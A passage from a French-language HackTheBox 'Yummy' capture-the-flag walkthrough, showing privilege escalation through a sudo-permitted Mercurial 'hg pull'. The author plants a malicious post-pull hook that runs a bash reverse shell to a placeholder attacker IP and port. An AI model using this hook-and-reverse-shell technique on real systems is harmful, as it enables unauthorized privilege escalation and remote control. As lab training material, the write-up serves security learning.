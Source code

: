 L'utilisateur actuel `qa` est capable d'exécuter `/usr/bin/hg pull /home/dev/app-production/` en tant qu'utilisateur `dev`.

![qa sudo privileges](/images/HTB-Yummy/sudo_privs.png)

La commande `hg` est utilisée pour l'outil de gestion de contrôle de version Mercurial. La commande `hg pull` est utilisée pour mettre à jour un dépôt en y intégrant les modifications d'un autre. Nous pouvons donc créer un répertoire `.hg` malveillant (c'est dans ce répertoire que les dépôts Mercurial stockent leurs paramètres, comme `.git` pour Git). Nous injecterons ensuite un hook malveillant afin d'exécuter notre commande reverse shell.

1. Nous configurons notre dépôt malveillant

```
cd /tmp
mkdir .hg
chmod 777 .hg
cp ~/.hgrc .hg/hgrc  
```

> Le fichier `hgrc` est le fichier de configuration de Mercurial, il contient des paramètres tels que les chemins de dépôt et les hooks.

![Mercurial file creation](/images/HTB-Yummy/hg_files_creation.png)

2. Nous ajoutons notre hook malveillant dans `/tmp/.hg/hgrc`

> Les hooks sont utilisés pour exécuter des commandes lors d'événements spécifiques (dans notre exemple, `post-pull` s'exécutera après le téléchargement des modifications).

```
[hooks]  
post-pull = /tmp/revshell.sh  
```

![Mercurial hooks](/images/HTB-Yummy/hg_hooks.png)

3. Ensuite, nous créons notre fichier `revshell.sh` dans le dossier `/tmp`.

```bash
#!/bin/bash  
/bin/bash -i >/dev/tcp/{IP}/{PORT} 0<&1 2>&1
```

4. Enfin, nous rendons le fichier reverse shell exécutable et exécutons la commande `hg`.

```
chmod +x /tmp/revshell.sh

sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

> N'oubliez pas de démarrer le listener.

![hg command execution](/images/HTB-Yummy/hg_cmd_exec.png)

Sur notre listener, nous obtenons un shell en tant que `dev` et nous découvrons que cet utilisateur peut exécuter `rsync` en tant que root pour synchroniser les fichiers de `/home/dev/app-production` avec `/opt/app` sans fournir de mot de passe.
